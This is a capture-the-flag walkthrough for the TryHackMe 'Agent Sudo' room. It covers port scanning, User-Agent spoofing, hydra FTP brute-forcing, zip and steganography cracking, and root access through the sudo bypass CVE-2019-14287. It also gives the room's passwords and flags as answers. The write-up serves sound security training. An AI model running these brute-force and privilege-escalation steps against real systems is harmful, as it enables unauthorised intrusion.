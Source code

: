 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28449%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28436%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28399%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28404%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28388%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28381%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28420%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28402%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28405%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```text
sudo -l
```

![](../.gitbook/assets/image%20%28435%29.png)

### CVE number for the escalation 

![](../.gitbook/assets/image%20%28382%29.png)

![](../.gitbook/assets/image%20%28440%29.png)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag? 

```text
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### \(Bonus\) Who is Agent R?

![](../.gitbook/assets/image%20%28394%29.png)

{% hint style="success" %}
DesKel
{% endhint %}

